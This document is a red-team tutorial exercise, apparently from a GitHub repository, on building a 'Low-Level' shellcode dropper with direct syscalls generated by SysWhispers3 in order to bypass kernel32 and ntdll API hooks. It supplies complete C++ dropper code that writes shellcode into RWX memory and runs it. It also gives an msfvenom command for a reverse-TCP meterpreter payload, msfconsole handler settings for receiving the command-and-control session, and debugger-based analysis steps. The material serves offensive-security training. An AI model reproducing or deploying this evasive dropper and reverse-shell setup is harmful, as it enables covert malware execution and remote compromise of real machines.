 ## Exercise 4: Low_Level_API_Dropper
In this exercise, we will make the second modification to the reference dropper, create the direct syscall dropper, and implement the required syscalls or syscall stub directly into the **Low-Level API shellcode dropper** for short **Low-Level-Dropper**. 
![low_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235438881-e4af349a-0109-4d8e-80e2-730915c927f6.png)

## Exercise 4 tasks:
### Create Low-Level-Dropper 
1. Create necessary code for Low-Level-Dropper with SysWhispers3
1. Create a new C++ POC in Visual Studio 2019 and use the provided code for the Low-Level-Dropper.
2. Create staged x64 meterpreter shellcode with msfvenom and copy it to the C++ Low-Level-Dropper poc. 
3. Compile the Low-Level-Dropper as release or debug x64. 
4. Create and run a staged x64 meterpreter listener with msfconsole.
5. Run your compiled .exe and verify that a stable command and control channel opens. 
### Analyse Low-Level-Dropper
6. Use the Visual Studio tool **dumpbin** to analyze the compiled Low-Level-Dropper. Is the result what you expected?  
7. Use the tool **API Monitor** to analyze the compiled Low-Level-Dropper in the context of the four APIs used. Is the result what you expected? 
8. Use the debugger **x64dbg** to analyze the compiled Low-Level-Dropper: from which module and location are the syscalls from the four APIs used being executed? Is the result what you expected? 

## SysWhispers 3
Again, we need to implement the code for the four native APIs we use, but unlike the Medium_Level dropper, we do not load the corresponding syscalls from ntdll.dll. Instead, we want to implement the necessary code directly in our Low-Level-Dropper. Therefore we have to create the corresponding code or files with the tool SysWhispers3 from [**@KlezVirus**](https://twitter.com/KlezVirus). To create the necessary code in context of our Low-Level-Dropper you can use the following command with SysWhispers. Because we work with the MSVC compiler in Visual Studio we choose for the -c parameter msvc. 
<details>
    
**kali>**
```
python syswhispers.py -a x64 -c msvc -f NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx,NtWaitForSingleObject -o syscalls -v
```
</details>

SysWhispers3 creates for us the three files **syscalls.h**, **syscalls.c** and **syscalls-asm.x64.asm**, which we later implement in our Low-Level-Dropper and which represent the code for the direct syscall implementation. 
<details>
 
<p align="center">
<img width="942" alt="image" src="https://user-images.githubusercontent.com/50073731/235453951-f99fe798-79b9-458e-93af-5d0b3c52a0de.png">
</details>



## Visual Studio
To create the Low-Level-Dropper project, follow the procedure of the High-Level-Dropper exercise, take a look to follow the necessary steps.
The code works as follows, shellcode declaration is the same as before in both droppers.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>


In the case of the Low-Level-Dropper, we also need to access the syscalls or syscalls stub from the respective native APIs. Again, we use the same native APIs as in the Medium-Level-Dropper. 
But this time we do not want to run/import the syscalls from ntdll.dll and instead want to implement the functionality directly in the Low-Level-Dropper itself, we have to import the generated files/code from SysWhispers 3 into our Low-Level-Dropper. The syscalls.h provides the structure of the used native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject and the syscalls-asm.x64.asm contains the corresponding syscalls or syscall stubs. This allows the Low-Level-Dropper to execute syscalls directly without the transition from dropper.exe -> kernel32.dll -> ntdll.dll. Practically, we need to implement the generated code with SysWhispers 3 as follows: 

1. Copy all three files we created with SysWhispers 3 into the directory of your Low-Level-Dropper Visual Studio project.
<details>
 
<p align="center">
<img width="697" alt="image" src="https://user-images.githubusercontent.com/50073731/235456064-2b124b99-6936-4a96-a878-2e8dd8cdb460.png">
</details>

    
2. Add the syscalls.h file to your Low-Level-Dropper project as a header file. 
<details>
 
<p align="center">
<img width="1269" alt="image" src="https://user-images.githubusercontent.com/50073731/235456468-ffd08548-6f71-4904-821c-6d88580fa3fb.png">
<img width="599" alt="image" src="https://user-images.githubusercontent.com/50073731/235456549-4385fe3d-4a77-49d7-a153-19e0c5e54cf8.png">
</details>

3. We also need to include the header syscalls.h as a library in our code. 
Customisations.
<details>
 
<p align="center">
<img width="1285" alt="image" src="https://user-images.githubusercontent.com/50073731/235458107-e86178b5-f4f2-4110-a415-d93a08f61373.png">
</details>

4. Add the syscalls-asm.x64.asm file as a resource file. 
<details>
 
<p align="center">
<img width="1268" alt="image" src="https://user-images.githubusercontent.com/50073731/235456751-b44a0786-5225-46d7-9ec3-032a6b8ab36c.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235456831-138e449f-11ae-4cc6-9483-4073eed67c49.png">
</details>

5. Add the file syscall.c as source file
<details>
 
<p align="center">
<img width="1263" alt="image" src="https://user-images.githubusercontent.com/50073731/235457023-473375d1-591d-4479-b47c-2918af056ff2.png">
<img width="598" alt="image" src="https://user-images.githubusercontent.com/50073731/235457085-bf6775f0-c370-4bb0-b883-db99123b06ca.png">
</details>

6. To use the assembly code from the syscalls-asm.x64.asm file in Visual Studio, you must enable the Microsoft Macro Assembler (.masm) option in Build Dependencies/Build. Customisations.
<details>
 
<p align="center">
<img width="1278" alt="image" src="https://user-images.githubusercontent.com/50073731/235457590-371f3519-b7cf-483d-9c1c-6bfd6368be42.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235457782-780d2136-30d7-4e87-a022-687ed2557b33.png">
</details>

7. Then we need to set the Item Type of the syscalls-asm.x64.asm file to Microsoft Macro Assembler, otherwise we will get an unresolved symbol error in the context of the native APIs used in our Low-Level-Dropper. 
<details>
 
<p align="center">
<img width="950" alt="image" src="https://user-images.githubusercontent.com/50073731/235471947-4bcd23fc-5093-4f4d-adc8-eb3ef36f139f.png">    
<img width="1237" alt="image" src="https://user-images.githubusercontent.com/50073731/235458968-e330799e-51ff-46bf-97ab-c7d3be7ea079.png">
<img width="778" alt="image" src="https://user-images.githubusercontent.com/50073731/235459219-4387dc48-56f8-481c-b978-1b786843a836.png">
    
</details>

Here is the **complete code**, and you can copy and paste this code into your **Low-Level-Dropper** project in Visual Studio.
You can also download the complete **Low-Level-Dropper Visual Studio project** in the **Code Example section** of this repository.
<details>
    
```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);


    // Return 0 as the main function exit code
    return 0;
}
```
</details>

    
    
    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the Low-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our Low-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled Low-Level-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>
        

    
## Low-Level-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports low_level.exe
```
</details>    

<details>
    <summary>Solution</summary>  
    
**No imports** from the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="1023" alt="image" src="https://user-images.githubusercontent.com/50073731/235473764-c85ccc73-a1cb-403d-8162-172146375d96.png">
</p>
</details>   
    
    
## Low-Level-Dropper analysis: API-Monitor
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and the corresponding native APIs, we can be sure that there are no more transitions in the context of the used APIs in our Medium-Level-Dropper. We filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

<details>
    <summary>Solution</summary>    
If everything was done correctly, you could see that the four used Windows APIs and their native APIs are no longer imported from kernel32.dll and ntdll.dll to the Low-Level-Dropper.exe.
This result was expected and is correct because our Low-Level-Dropper has directly implemented the necessary syscalls or syscall stubs for the respective native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject.
<p align="center">
<img width="595" alt="image" src="https://user-images.githubusercontent.com/50073731/235480936-df805736-aad8-44a7-8bec-f8563735d1d2.png">
</p>
</details>    

## Low-Level-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, now we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your Low-Level-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight your **Low-Level-Dropper.exe**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. Compared to the High-Level-Dropper and the Medium-Level-Dropper we can see that the symbols for the used native APIs are implemented directly in the dropper itself and not imported from the ntdll.dll.
    
<p align="center">    
<img width="979" alt="image" src="https://user-images.githubusercontent.com/50073731/235481553-012459f5-1284-44ed-b3ed-2b04bfcccd3b.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are no longer 
imported from the .text section in the ntdll.dll module. Instead the syscalls or syscalls stubs are directly implemtented into the .text section of the Low-Level-Dropper itself.
    
<p align="center">    
<img width="990" alt="image" src="https://user-images.githubusercontent.com/50073731/235482389-35cd8c12-593e-4089-b082-8eaf2ba6636a.png"></p>    
</details>


## Summary:
- Made transition from medium to low level or from Native APIs to direct syscalls
- Dropper imports no longer Windows APIs from kernel32.dll
- Dropper imports no longer Native APIs from ntdll.dll
- Syscalls or syscall stubs are "implemented" directly into .text section of .exe
